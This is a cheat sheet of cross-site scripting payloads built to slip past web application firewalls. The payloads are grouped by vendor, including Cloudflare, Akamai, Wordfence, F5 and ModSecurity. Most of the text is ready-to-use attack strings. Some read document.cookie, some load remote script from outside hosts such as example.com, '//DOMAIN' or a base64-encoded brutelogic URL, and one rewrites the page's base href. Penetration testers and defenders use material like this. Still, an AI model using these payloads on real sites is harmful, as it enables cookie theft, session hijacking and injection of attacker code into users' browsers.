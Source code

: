# ✖️ XSS WAF Bypass

**XSS-protection bypass**

```
<embed/:script allowscriptaccess=always src=example.com/x.js>

"onmouseover=alert(1)>
```

**Cloudflare Bypass**

```
<a"/onclick=(confirm)()>click
<a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;\u0061\u006C\u0065\u0072\u0074&lpar;this['document']['cookie']&rpar;">X</a>
<--`<img/src=` onerror=confirm``> --!>
```

**Akamai bypass**

```
<dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x> //akamai ghost bypass
<d3v/onauxclick=[2].some(confirm)>click
<a href="javascript:pro\u006dpt(document.cookie)">L1k0r</a>
?"></script><base%20c%3D=href%3Dhttps:\mysite>
```

**Generic WAF Bypasses**

```
<!" (without quotes) before: <!<script>alert(1)</script>
anythinglr00%3c%2fscript%3e%3cscript%3ealert(document.domain)%3c%2fscript%3euxldz
BLOCKED <body/onload PASSED <body/onpageshow  BLOCKED =alert() PASSED =(alert)()

Notification.requestPermission(x=>{new(Notification)(1)})

<svg/onload=eval(location.hash.slice(1))>#with(document)body.appendChild(createElement('script')).src='//DOMAIN'
[base64 bypass firefox]: #with(document)body.appendChild(createElement(/script/.source)).src=atob(/Ly9icnV0ZWxvZ2ljLmNvbS5ici8y/.source)

[FINAL/src=brutelogic.com.br/2]: <svg/onload=eval(atob(URL.slice(-148)))>#d2l0aChkb2N1bWVudClib2R5LmFwcGVuZENoaWxkKGNyZWF0ZUVsZW1lbnQoL3NjcmlwdC8uc291cmNlKSkuc3JjPWF0b
2IoL0x5OWljblYwWld4dloybGpMbU52YlM1aWNpOHkvLnNvdXJjZSk=
```

**MORE: Bypassing WAFs in Wild**

```
Name: Wordfence
Payload: <a/href=javascript&colon;alert()>click

Name: Barracuda
Payload: <a/href=&#74;ava%0a%0d%09script&colon;alert()>click

Name: Comodo
Payload: <d3v/onauxclick=(((confirm)))``>click

Name: F5
Payload: <d3v/onmouseleave=[2].some(confirm)>click

Name: ModSecurity
Payload: <details/open/ontoggle=alert()>

Name: dotdefender
Payload: <details/open/ontoggle=(confirm)()//
```





***

## REFERENCES

* [https://github.com/0xVIC/CheatSheets/blob/master/Cross-site%20scripting/WAF\_bypasses.md](https://github.com/0xVIC/CheatSheets/blob/master/Cross-site%20scripting/WAF\_bypasses.md)
* [https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet](https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet)
* [https://cheatsheetseries.owasp.org/cheatsheets/XSS\_Filter\_Evasion\_Cheat\_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/XSS\_Filter\_Evasion\_Cheat\_Sheet.html)
